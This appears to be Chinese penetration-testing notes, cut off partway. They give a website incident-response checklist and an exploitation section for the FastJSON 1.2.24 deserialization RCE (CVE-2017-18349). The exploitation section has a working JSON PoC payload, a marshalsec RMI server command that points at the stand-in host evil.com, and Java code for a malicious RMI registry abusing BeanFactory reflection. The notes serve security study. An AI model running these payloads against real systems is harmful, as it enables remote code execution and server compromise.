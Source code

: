 - 系统含有非法账号
- 系统中含有异常服务程序
- 系统部分文件被篡改，或发现有新的文件
- 系统安全日志中有非正常登陆情况
- 网站日志中有非授权地址访问管理页面记录

- 通过异常文件的创建和修改时间，一般可以判断攻击者对 网站进行入侵的时间段
- 对异常服务或进程的追踪，可以查找恶意文件，确认攻击 后的后门，以及攻击时间
- 网站目录下的异常文件，对判断攻击手段具有参考意义
- 网站访问日志可以对攻击手段、时间和攻击源地址的追踪 提供有力的证据
- 系统安全日志中的登录信息同样可以用于判断攻击者来源
**收尾工作：**
- 拷贝系统日志、网站访问日志、异常文件以及截图文件
- 在得到客户许可的情况下，删除恶意程序、服务
- 如有必要，对确认已删除非法文件的网站程序文件和数据 库进行备份
- 恢复网站业务正常运行； • 锁定网站服务器
# 反序列化漏洞
## JAVA
### FastJSON 1.2.24 反序列化（命令执行）漏洞 CVE-2017-18349
fastjson rce的关键函数
`DefaultJSONParser.parserObject()`解析传入的json字符串提取不同的key进行后续处理
`TypeUtils.loadClass()`根据传入的类名生成类的实例
`JavaBeanDeserializer.Deserialze()`依次调用@type中传入类的对象公有set\\get\\is方法
`ParseConfig.checkAutoType()`阿里云后续添加的防护函数，用于在loadclass前检查传入的类是否合法
初始PoC
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```
[dnslog](tools/信息收集/dnslog.md)
**rmi协议**
```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```
1. 基于rmi的利用
2. 基于idap的利用
3. 基于BeanFactory的利用
```java
public class EvilRMIServerNew {

    public static void main(String[] args) throws Exception {

        System.out.println("Creating evil RMI registry on port 1097");

        Registry registry = LocateRegistry.createRegistry(1097);


        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);

        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code

        ref.add(new StringRefAddr("forceString", "x=eval"));

        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows

```